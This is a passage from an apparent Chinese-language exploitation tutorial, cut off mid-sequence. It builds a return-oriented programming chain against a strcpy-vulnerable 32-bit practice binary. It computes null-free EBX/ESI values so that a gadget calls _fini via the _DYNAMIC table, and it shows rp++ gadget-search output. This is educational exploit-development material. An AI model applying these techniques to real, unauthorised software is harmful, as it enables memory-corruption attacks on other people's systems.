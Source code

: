 那EBX与ESI中应该是什么值才能调用_fini呢？ 

1. 首先，我们需要找到一个含有_fini(0x804861c)地址的内存区域。 如下所示，内存地址0x8049f3x中含有_fini的地址  
```
0x8049f28 :    0x00000001 0x00000010 0x0000000c 0x08048354
0x8049f38 <_DYNAMIC+16>: 0x0000000d 0x0804861c 0x6ffffef5 0x080481ac
0x8049f48 <_DYNAMIC+32>: 0x00000005 0x0804826c
``` 
2. 将ESI设置为0x01020101.采用这个值，那是因为我们不能让ESI中为0x0，而这时一个strcpy漏洞代码，0是个不好的字符！ 另外，我们要确保存储在EBX中的结果值也不能是0！    
将EBX设置为下面的值  
```
ebx+esi*4-0xe0 = 0x8049f3c
ebx = 0x8049f3c -(0x01020101*0x4) + 0xe0
ebx = 0x3fc9c18
```

这样一来，我们发现要调用_fini，就需要确保EBX和ESI中必须分别加载0x3fc9c18与0x01020101  

-Gadget 5: 加载0x3fc9c18到EBX中  

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
65 found.
A total of 65 gadgets found.
...
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```
-Gadget 6: 加载0x01020101到ESI,加载0x01020102到EDI  

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 3
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
135 found.
A total of 135 gadgets found.
...
0x080485ce: popl %edi ; popl %ebp ; ret ; (1 found)
0x080485cd: popl %esi ; popl %edi ; popl %ebp ; ret ; (1 found)
0x08048390: pushl 0x08049FF8 ; jmpl *0x08049FFC ; (1 found)
...
$
```
-Gadget 7: 将0x1拷贝到内存区域0x804a028中  
